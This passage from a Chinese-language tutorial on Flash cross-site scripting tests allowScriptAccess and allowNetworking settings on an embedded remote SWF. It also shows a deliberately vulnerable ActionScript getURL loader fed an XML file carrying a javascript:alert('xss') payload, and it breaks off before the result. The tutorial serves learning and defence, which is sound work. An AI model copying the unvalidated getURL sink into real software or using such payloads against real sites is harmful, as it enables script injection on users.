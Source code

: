 5）：插入远程Flash，将allowScriptAccess改为samedomain  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="samedomain" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出，因为Flash的域不和html在同一域内。  
6）：插入远程Flash，将allowScriptAccess改为never  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="never" />
<param name="allowNetworking" value="all" />
</object>
```
运行结果没有弹出，由于禁止了与html界面通讯。  
7）：将allowScriptAccess置为always，将allowNetworking置为internal  
``` html
<object type="application/x-shockwave-Flash" data="http://xxxxx.sinaapp.com/trace.swf">
<param name="movie" value = "http://xxxxx.sinaapp.com/trace.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="internal" />
```
运行结果没有弹出，allowNetworking的参数置为internal，禁止了接口ExternalInterface.all。  

## 0x02 常见Flash xss分类总结Flash缺陷参数-getURL  
Flash提供相关的函数，可以执行js代码，getURL【AS2中支持】，navigateToURL【AS3中支持】，ExternalInterface.call。  
本着学习的原则本地搭建实践了下： 本地新建了个Flash，Flash调用外部资源xml文件。 Flash代码：  
``` actionScript
var root_xml:XML = new XML();
root_xml.ignoreWhite = true;
root_xml.onLoad = function(success){
    if(success){
        getURL(root_xml.childNodes[0].childNodes[0].childNodes[0].nodeValue)
    }else{
        getURL("javascript:alert('fail')")
    }
}
root_xml.load(_root.url);
```
xml文件：  
``` xml
<?xml version="1.0" encoding="utf-8" ?>
<data>
    <link>javascript:alert('xss')</link>
</data>
```
运行结果：  